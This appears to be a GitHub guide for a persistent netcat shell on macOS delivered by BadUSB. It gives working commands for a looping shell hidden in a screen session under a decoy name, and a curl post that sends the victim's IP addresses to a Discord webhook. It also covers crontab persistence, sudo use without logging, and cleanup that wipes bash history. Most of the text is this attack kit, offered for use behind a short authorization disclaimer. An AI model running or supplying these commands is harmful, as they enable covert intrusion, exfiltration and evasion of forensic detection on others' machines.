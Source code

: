 # **Mac Endless Reverse Shell**

### **Introduction**

This guide provides step-by-step instructions for setting up an interactive reverse shell on MacOS systems using **`nc`** (netcat). It is intended for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical. Please ensure you have proper authorization before attempting any actions described in this guide.

For additional commands and data on reverse shells, refer to the [HackTricks documentation](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#full-tty).

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

`unset HISTFILE; screen -dmS upd_check bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null) & wait $nc_pid; done'`

**Description**:

- **`screen -dmS upd_check`**: Starts a detached screen session named "upd_check" to run the following command.
- **`bash -c '...'`**: Launches a Bash shell and executes the provided command within it.
- **`unset HISTFILE`**: Prevents Bash from saving command history to a file.
- **`set +o history`**: Disables command history for the current shell session.
- **`trap "pkill -P \$\$" SIGINT SIGTERM`**: Sets up a trap to kill any child processes spawned by the command upon receiving SIGINT or SIGTERM signals (e.g., Ctrl+C).
- **`while true; do ... done`**: Creates an infinite loop to continuously execute the following commands.
- **`rm -f /tmp/f`**: Removes any existing FIFO file named "/tmp/f".
- **`mkfifo /tmp/f`**: Creates a new FIFO (named pipe) file named "/tmp/f" for communication.
- **`nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 &`**: Sets up a netcat listener on port 9123, redirecting input/output to the FIFO file, and starts a Bash shell with interactive mode (-i).
- **`nc_pid=$!`**: Stores the process ID (PID) of the netcat listener.
- **`(sleep 300 && kill -9 $nc_pid 2>/dev/null) &`**: Initiates a background process to sleep for 300 seconds (5 minutes) and then forcibly terminates the netcat listener process to trigger automatic reconnection.
- **`wait $nc_pid`**: Pauses execution until the netcat listener process terminates.

Then, send the external and internal IP addresses of the machine to a Discord channel. Replace **`YOUR_DISCORD_CHANNEL_TOKEN`** with your token inside the Ducky Script:
`external_ip=$(curl -s [ifconfig.me](http://ifconfig.me/)); internal_ips=$(ifconfig | grep -Eo 'inet (addr:)?([0-9]*\.){3}[0-9]*' | grep -v '127.0.0.1' | sed 's/inet //' | paste -sd "," -); json_payload="{\"content\": \"From Endless Reverse Shell BadUSB:\\nExternal IP: $external_ip\\nInternal IP(s): $(echo $internal_ips | sed 's/,/, /g')\\n----------------------------------------\"}"; curl -X POST -H "Content-Type: application/json" -d "$json_payload" "YOUR_DISCORD_CHANNEL_TOKEN" && unset external_ip internal_ips`

Not part of the Ducky Payload. For increased persistence, set the command as a crontab job (TCC permission is needed):
`@reboot /bin/bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; (nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 || true) & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null || true) & wait $nc_pid; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** Switch to root without command logging.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

The procedure incorporates an automatic re-establishment mechanism for the reverse shell connection every 5 minutes. This feature proves particularly valuable in scenarios where the reverse shell may be disrupted due to network instability or accidental closure of the initial connection. By utilizing a loop that periodically terminates the existing **`nc`** listener and initiates a new one, the command ensures that the attacker can regain access to the target machine without the need to redeploy the payload. This auto-reconnect functionality enhances the resilience of the reverse shell to disconnections and reinforces its persistence on the target machine, guaranteeing that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure prioritizes operational discretion and effectiveness. Ensure you possess authorized access to the system before proceeding with this setup.***